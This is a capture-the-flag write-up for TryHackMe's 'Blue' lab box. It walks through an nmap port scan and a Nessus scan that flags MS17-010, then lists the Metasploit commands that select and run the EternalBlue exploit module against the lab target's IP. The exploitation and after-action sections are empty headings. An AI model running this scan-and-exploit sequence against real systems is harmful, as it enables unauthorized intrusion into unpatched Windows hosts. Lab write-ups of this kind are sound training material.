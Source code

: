 ## TryHackMe - (Eternal)Blue Methodology

This is the attack methodology I used for TryHackMe's Blue box.
This box is a step back from Blueprint in terms of objective progression, however I found it to be a good lesson in fundementals.
I will mainly be focusing on the flags.

---
### Environment
#### Operating System
Latest kali-VM rolling update
#### Tools
Nessus
Metasploit

### Methodology
#### Objectives/Flags
 Flag1, This flag can be found at the system root.
 Flag2, This flag canbe found at the location where passwords are stored within Windows.
 Flag3, this flag can be found in an excellent location to loot.
#### Reconnaissance
First I started by running an nmap scan on the target. It was disclosed that ICMP was not going to work so I added in the extra ```-Pn``` into the options.
```
nmap -T4 -Pn <TargetIP>
	PORT      STATE SERVICE
	135/tcp   open  msrpc
	139/tcp   open  netbios-ssn
	445/tcp   open  microsoft-ds
	3389/tcp  open  ms-wbt-server
	49152/tcp open  unknown
	49153/tcp open  unknown
	49154/tcp open  unknown
	49158/tcp open  unknown
```
With this portscan I can see that there are a number of Windows services running on open ports. I figured this was a great time to employ a vulnerability scanner to see what more I could find.
I decided to try Nessus which is a well known vuln. scanner. Once downloading the installation file to my machine and registering for a license...
```
sudo apt install -f ./<Nessus.deb>
  service nessusd start
     https://kali:8834/
```
Once Nessus was up and running I set the Target and set it loose. A number of vulnerabilities were flagged and one stood out the most which I took to be relevant to the box.
```
port445 	MS17-010: Security Update for Microsoft Windows SMB Server (4013389) (ETERNALBLUE) (ETERNALCHAMPION) (ETERNALROMANCE) (ETERNALSYNERGY) (WannaCry) (EternalRocks) (Petya) (uncredentialed check)
```
The box walkthrough mentioned that it was time to use Metasploit which I've never used before. This required a bit of crash-coursing on google to understand the basic usage and comands.

```
metasploit
  search ms17-010
    exploit/windows/smb/ms17_010_eternalblue
		  use [0] (exploit/windows/smb/ms17_010_eternalblue)
		  set rhost 10.10.97.121
		  set lhost 10.4.63.148
		  set lport 445
		  run
```
#### Weaponization 
#### Delivery
#### Exploitation
#### Installation 
#### Command & Control
#### Actions on Objective
---
### After-action
#### What I've learned
#### What I would've done differently
